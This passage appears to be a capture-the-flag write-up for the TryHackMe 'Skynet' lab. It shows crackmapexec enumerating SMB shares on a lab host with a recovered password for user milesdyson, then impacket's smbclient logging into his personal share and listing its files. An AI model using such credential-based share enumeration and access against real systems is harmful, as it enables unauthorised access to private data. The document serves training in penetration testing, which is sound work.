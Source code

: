 
#### Get SMB Password

![](/assets/obsidian/fae3603407b46275a23bfbb889d3b8b6.png)

![](/assets/obsidian/898b2be061f3a9706d4d998670956774.png)


#### Get password in txt from SMB share

Check shares

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ cme smb 10.10.131.237 -u milesdyson -p ')s{A&2Z=F^n_E.B`' --shares
SMB         10.10.131.237   445    SKYNET           [*] Windows 6.1 (name:SKYNET) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.131.237   445    SKYNET           [+] \milesdyson:)s{A&2Z=F^n_E.B`
SMB         10.10.131.237   445    SKYNET           [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         10.10.131.237   445    SKYNET           [+] Enumerated shares
SMB         10.10.131.237   445    SKYNET           Share           Permissions     Remark
SMB         10.10.131.237   445    SKYNET           -----           -----------     ------
SMB         10.10.131.237   445    SKYNET           print$          READ            Printer Drivers
SMB         10.10.131.237   445    SKYNET           anonymous       READ            Skynet Anonymous Share
SMB         10.10.131.237   445    SKYNET           milesdyson      READ            Miles Dyson Personal Share
SMB         10.10.131.237   445    SKYNET           IPC$                            IPC Service (skynet server (Samba, Ubuntu))
```

```bash
┌──(kali㉿kali)-[~/thm/skynet]
└─$ smbclient.py milesdyson:')s{A&2Z=F^n_E.B`'@10.10.131.237
Impacket v0.10.1.dev1+20230616.115447.d1f16d8 - Copyright 2022 Fortra

Type help for list of commands

# use milesdyson
ls

# ls
drw-rw-rw-          0  Tue Sep 17 05:05:47 2019 .
drw-rw-rw-          0  Tue Sep 17 23:51:02 2019 ..
-rw-rw-rw-    5743095  Tue Sep 17 05:05:14 2019 Improving Deep Neural Networks.pdf
-rw-rw-rw-   12927230  Tue Sep 17 05:05:14 2019 Natural Language Processing-Building Sequence Models.pdf
-rw-rw-rw-   19655446  Tue Sep 17 05:05:14 2019 Convolutional Neural Networks-CNN.pdf
drw-rw-rw-          0  Tue Sep 17 05:18:40 2019 notes
-rw-rw-rw-    4304586  Tue Sep 17 05:05:14 2019 Neural Networks and Deep Learning.pdf
```